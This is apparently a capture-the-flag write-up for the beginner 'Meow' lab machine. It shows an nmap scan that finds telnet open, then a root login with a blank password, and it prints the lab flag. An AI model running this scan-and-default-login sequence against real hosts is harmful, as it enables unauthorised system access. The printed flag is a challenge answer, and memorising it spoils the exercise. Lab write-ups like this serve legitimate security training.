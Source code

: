 # Meow Write-Up

Very easy

Tags:
`Enumeration`
`Telnet`
`External`

## Intro

Use telnet to connect with the machine

## Exploit

### 1. Scan the target's port

```
nmap -sV <target IP>
```
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-25 02:38 EDT
Nmap scan report for 10.129.37.10
Host is up (0.19s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.92 seconds

```

### 2. Connect to the target via telnet

Install telnet
```
sudo apt update
sudo apt install telnet
```

Connect to the target
```
telnet <target IP>
```
```
Trying 10.129.37.10...
Connected to 10.129.37.10.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
```

### 3. Brute-force credentials
Username: `root` <br>
Password: `<blank>`
```
Meow login: root
```
```
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 25 Apr 2022 07:02:12 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.37.10
  IPv6 address for eth0: dead:beef::250:56ff:fe96:a152


75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Apr 25 06:57:09 UTC 2022 on pts/0
root@Meow:~# 

```

### 4. Get flag
```
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```
